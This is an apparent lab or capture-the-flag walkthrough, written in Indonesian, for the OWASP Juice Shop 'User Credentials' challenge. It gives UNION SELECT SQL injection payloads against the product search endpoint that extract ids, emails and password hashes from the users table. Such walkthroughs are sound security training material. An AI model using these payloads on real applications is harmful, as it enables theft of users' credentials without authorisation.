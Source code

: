# Juice-Shop: User Credentials

1. Untuk mengambil semua kredensial user, pakai endpoint yang digunakan, yaitu /rest/products/search?q=, tempat dipakainya UNION SELECT menggunakan tabel pengguna

```sql
')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--
```

![Soal 4](<../img/soal4%20(1).png>)

2. Periksa nama kolom dan mencoba seperti id, email, kata sandi dalam parameter.

```sql
')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

![Soal 4](<../img/soal4%20(2).png>)

Masih belum terfilter sekarang gunakan queery dibawah

```sql
p')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

![Soal 4](<../img/soal4%20(3).png>)

3. Berhasil

![Soal 4](<../img/soal4%20(4).png>)
